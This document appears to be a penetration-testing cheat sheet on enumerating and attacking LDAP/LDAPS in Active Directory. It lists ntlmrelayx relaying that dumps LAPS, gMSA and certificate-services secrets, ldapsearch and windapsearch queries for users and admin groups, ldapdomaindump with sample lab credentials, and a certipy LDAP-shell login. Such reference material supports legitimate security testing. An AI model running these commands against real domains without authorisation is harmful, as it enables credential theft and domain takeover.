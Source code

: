 # 389/636 -LDAP/S

![LDAP Diagram](../../assets/LDAP_auth.png)

---
### Enumeration
With [Impacket](https://github.com/SecureAuthCorp/impacket)'s [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) it is possible to gather lots of information regarding the domain users and groups, the computers, [ADCS](https://www.thehacker.recipes/ad/movement/adcs/), etc. through a [NTLM authentication relayed](https://www.thehacker.recipes/ad/movement/ntlm/relay) within an LDAP session.
```bash
ntlmrelayx -t "ldap://domaincontroller" --dump-adcs --dump-laps --dump-gmsa
```

The [ldapsearch](https://git.openldap.org/openldap/openldap) (C) tool can also be used.
```bash
# try on both ldap and ldaps, this is first command to run if you dont have any valid credentials.

ldapsearch -x -H ldap://<IP>:<port> 

ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
#CN name describes the info w're collecting
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"

# Get attackable user list
ldapsearch -x -H ldap://10.10.10.161 -D '' -w '' -b "DC=htb,DC=local" "(&(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))" sAMAccountName | grep "sAMAccountName:" | awk '{print $2}' > users.txt
```

The windapsearch script can be used to enumerate basic but useful information.
```bash
#windapsearch.py
python3 windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "objectClass=*"

python3 windapsearch.py --dc-ip <IP address> -u

#for computers
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --computers

#for groups
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --groups

#for users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --da

#for privileged users
python3 windapsearch.py --dc-ip <IP address> -u <username> -p <password> --privileged-users
```

Once authenticated we can dump the domain objects with:
```bash
sudo ldapdomaindump ldaps://10.13.37.10 -u 'MARVEL\fcastle' -p Password1

firefox domain_users_by_group.html
```

```
certipy auth -pfx baker.pfx -dc-ip 10.129.234.143 -ldap-shell
```